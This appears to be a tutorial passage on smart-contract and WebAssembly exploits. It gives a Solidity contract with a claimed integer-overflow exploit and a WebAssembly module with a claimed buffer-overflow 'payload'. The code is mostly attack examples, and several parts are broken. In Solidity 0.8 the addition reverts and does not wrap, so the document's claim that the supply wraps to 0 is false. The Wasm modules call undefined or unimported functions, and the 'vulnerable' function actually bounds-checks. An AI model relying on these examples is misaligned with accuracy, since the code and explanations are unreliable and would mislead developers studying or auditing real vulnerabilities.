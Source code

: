 #### Solidity&EVM Example Exploits

Here, we present an example of an integer overflow exploit in Solidity, wherein calculations exceed the variable storage's boundaries, leading to unexpected behaviors.

```solidity
// Solidity contract vulnerable to integer overflow
pragma solidity ^0.8.0;

contract OverflowVulnerable {
    uint8 public tokenSupply;

    constructor() {
        tokenSupply = 255;
    }

    function mintTokens(uint8 _amount) public {
        tokenSupply += _amount;  // Potential overflow
    }
}

// Exploit code for the above contract
contract OverflowExploit {
    OverflowVulnerable public vulnerable;

    constructor(address _vulnerableAddr) {
        vulnerable = OverflowVulnerable(_vulnerableAddr);
    }

    function executeExploit() public {
        vulnerable.mintTokens(1);  // tokenSupply wraps to 0
    }
}
```

Wasm exploits focus more on memory safety and undefined behavior.

#### Wasm Example Exploits

In Wasm, let's examine a buffer overflow vulnerability.

```webassembly
;; Wasm code vulnerable to buffer overflow
(module
  (memory $0 1)
  (export "memory" (memory $0))
  (func $vulnerable_func (param $ptr i32) (param $len i32)
    (if (i32.gt_u (i32.add $ptr $len) (i32.const 65536)) (then (unreachable)))
    (call $other_func $ptr $len)
  )
  (export "vulnerable_func" (func $vulnerable_func))
)

;; Custom Wasm exploit payload
(module
  (memory $0 1)
  (func $exploit (param $ptr i32) (param $len i32)
    (call $vulnerable_func $ptr (i32.const 65535))  ;; Overflows the buffer
  )
  (export "exploit" (func $exploit))
)
```
